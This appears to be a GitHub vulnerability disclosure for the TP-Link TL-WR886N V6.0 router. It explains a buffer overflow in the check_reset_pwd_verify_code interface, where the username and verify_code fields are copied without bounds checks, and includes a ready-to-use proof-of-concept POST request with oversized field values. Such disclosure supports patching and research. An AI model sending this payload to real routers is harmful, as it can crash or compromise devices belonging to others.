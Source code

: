 # TP-LINK WR-886N Vulnerability
This vulnerability is on the /cloud_config/router_post/check_reset_pwd_verify_code interface and affects the latest version of the router operating system (which is a different RTOS system from the linux operating system), and the firmware version is TL-WR886N V6.0 upgrade software 20190826 2.3.8
## Vulnerability description
There is a buffer overflow vulnerability on the /cloud_config/router_post/check_reset_pwd_verify_code interface.

1. An interface ```/cloud_config/router_post/check_reset_pwd_verify_code``` is registered first in the chkResetVeriRegister function.
![](./chkResetVeriRegister1.png)
2. In the handler, the v7 variable is the ```username``` field in the packet, and the v9 variable is the ```verify_code``` field in the packet. Then directly memcpy to the a3 variable refers to the address space, there is a buffer overflow problem.
![](./chkResetVeriRegister2.png)
## poc
```
POST /cloud_config/router_post/check_reset_pwd_verify_code HTTP/1.1
Host: 192.168.0.1
Content-Length: 717
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&verify_code=bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
```
## Acknowledgment 
Credit to [@Yu3H0](https://github.com/Yu3H0/) ,[@leonW7](https://github.com/leonW7), [@cpegg](https://github.com/cpeggg) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.